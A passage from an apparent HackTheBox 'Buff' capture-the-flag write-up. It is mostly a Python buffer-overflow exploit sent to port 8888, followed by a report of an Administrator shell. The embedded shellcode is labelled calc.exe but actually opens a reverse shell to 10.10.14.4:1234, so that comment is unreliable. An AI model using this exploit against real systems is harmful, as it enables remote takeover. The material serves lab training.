 ```bash

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
shellcode=("\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x04\x68"
"\x02\x00\x04\xd2\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5")

overrun = b"C" * (1500 - len(padding1 + NOPS + EIP + shellcode))	

buf = padding1 + EIP + NOPS + shellcode + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

Started nc on another side and started the python script.

```bash
root@kali:~/CTF/HTB/Boxes/Buff# python 48389.py
python 48389.py
```

We got the shell as Administrator.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-buff/Untitled%207.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-buff/Untitled%207.png)

We own the box.